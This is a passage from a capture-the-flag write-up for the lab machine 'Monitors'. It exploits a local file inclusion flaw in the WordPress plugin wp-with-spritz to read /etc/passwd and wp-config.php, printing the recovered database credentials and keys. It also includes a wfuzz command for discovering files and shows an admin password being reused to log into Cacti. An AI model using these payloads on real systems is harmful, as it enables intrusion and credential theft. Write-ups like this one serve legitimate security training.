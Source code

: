 ```
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash 
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false 
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false 
```

Sweet it works. Let'S have a look at some more interesting files:

http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php

```
/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

define( 'AUTH_KEY',         'KkY%W@>T}4CKTw5{.n_j3bywoB0k^|OKX0{}5|UqZ2!VH!^uWKJ.O oROc,h pp:' );
define( 'SECURE_AUTH_KEY',  '*MHA-~<-,*^$raDR&uxP)k(~`k/{PRT(6JliOO9XnYYbFU?Xmb#9USEjmgeHYYpm' );
define( 'LOGGED_IN_KEY',    ')F6L,A23Tbr9yhrhbgjDHJPJe?sCsDzDow-$E?zYCZ3*f40LSCIb] E%zrW@bs3/' );
define( 'NONCE_KEY',        'g?vl(p${jG`JvDxVw-]#oUyd+uvFRO1tAUZQG_sGg&Q7O-*tF[KIe$weE^$bB3%C' );
define( 'AUTH_SALT',        '8>PIil3 7re_:3&@^8Zh|p^I8rwT}WpVr5|t^ih05A:]xjTA,UVXa8ny:b--/[Jk' );
define( 'SECURE_AUTH_SALT', 'dN c^]m:4O|GyOK50hQ1tumg4<JYlD2-,r,oq7GDjq4M Ri:x]Bod5L.S&.hEGfv' );
define( 'LOGGED_IN_SALT',   'tCWVbTcE*_T_}X3#t+:)>N+D%?vVAIw#!*&OK78M[@ YT0q):G~A:hTv`bO<,|68' );
define( 'NONCE_SALT',       'sa>i39)9<vVyhE3auBVzl%=p23NJbl&)*.{`<*>;R2=QHqj_a.%({D4yI-sy]D8,' );
```

We got creds for the wp database and some keys. Unfortunately we can't forge cookies anymore with the keys, that has been fixed for a couple of years now.

We can't use those creds anywhere either so we need to find some more interesting files. Let's automate that process:
```
wfuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=FUZZ --hh 0
```

In the `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//proc/self/fd/10` file we find an interesting subdomain:
```
http://cacti-admin.monitors.htb
```

Let's add that to our hosts file and have a look. We have a login form at an instance of [cacti](https://www.cacti.net/) and we can authenticate as admin with the password we already found:

```
admin:BestAdministrator@2020!
```
